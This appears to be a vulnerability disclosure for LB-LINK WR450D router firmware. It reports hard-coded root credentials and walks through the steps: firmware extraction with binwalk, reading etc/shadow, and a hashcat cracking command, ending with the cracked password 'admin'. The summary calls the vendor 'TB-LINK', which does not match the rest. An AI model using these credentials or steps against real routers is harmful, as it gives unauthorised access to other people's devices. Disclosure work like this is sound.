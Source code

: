 # Summary



There is a credential hard-coding vulnerability in the TB-LINK WR450D_28AE5_D-Open(V1.01)_TFTP device. An attacker can obtain the password by combining the md5 hash stored in the etc/passwd file in the firmware with hashcat brute force.

Manufacturer's official website: https://www.lb-link.com/

Firmware download address: https://www.lb-link.com/Upgrade-Software-dc212882.html

# Details



Download the firmware, unzip the uImage with `binwalk -Me`, and view the etc/shadow file: 

![image-20241225122422750](./LB-LINK WR450D_28AE5_D-Open(V1.01)_TFTP Hardcoded Credential and Weak Password/images/image-20241225122422750.png)

```
iot@iot-virtual-machine:~/Desktop/IoT/_uImage.extracted/squashfs-root$ cat etc/shadow root:$1$SJ5LSTDn$xtmlqmpxDeKFfyugLM6.E.:18380:0:99999:7::: CMCCAdmin:$1$SJ5LSTDn$xtmlqmpxDeKFfyugLM6.E.:18380:0:99999:7::: user:$1$SJ5LSTDn$xtmlqmpxDeKFfyugLM6.E.:18380:0: 99999:7:::
daemon:*:0:0:99999:7:::
ftp:*:0:0:99999:7:::
network:*:0:0:99999:7:::
nobody:*:0:0:99999:7:::
```



Use hashcat to blast `$1$SJ5LSTDn$xtmlqmpxDeKFfyugLM6.E.`:

```
hashcat -m 500 -a 0 hash.txt ~/Desktop/rockyou.txt
```

![image-20241225122437402](./LB-LINK WR450D_28AE5_D-Open(V1.01)_TFTP Hardcoded Credential and Weak Password/images/image-20241225122437402.png)



The password is: admin

# Discoverer



https://github.com/N0zoM1z0/